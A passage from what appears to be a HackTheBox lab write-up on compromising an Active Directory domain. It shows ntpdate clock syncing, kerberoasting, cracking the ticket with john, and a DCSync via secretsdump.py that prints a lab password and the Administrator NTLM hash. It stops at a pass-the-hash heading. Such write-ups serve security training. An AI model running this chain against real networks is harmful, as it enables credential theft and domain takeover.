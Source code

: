 To do this we can use the `ntpdate` tool:

```bash
sudo apt install ntpsec-ntpdate
```

```bash
sudo ntpdate 10.10.11.42
```

{% hint style="danger" %}
If we are in kali linux we also disable the auto ntp-sync with this command:

`timedatectl set-ntp 0`&#x20;
{% endhint %}

Now we can perform the kerberoast attack

<figure><img src="../../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

Put the tgt ticket in a file and crack it with john

```bash
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt tgtkerb.txt
```

<figure><img src="../../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

### DCSync with Ethan user

Now that we have ethan's credentials we can perform a dcsync to obtain all NTLM hash of the domain.

```bash
./secretsdump.py 'administrator.htb'/'Ethan':'limpbizkit'@'10.10.11.42'
```

```
[..SNIP..]
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
[..SNIP..]
```



### Pass-the-Hash for Administrator user connection
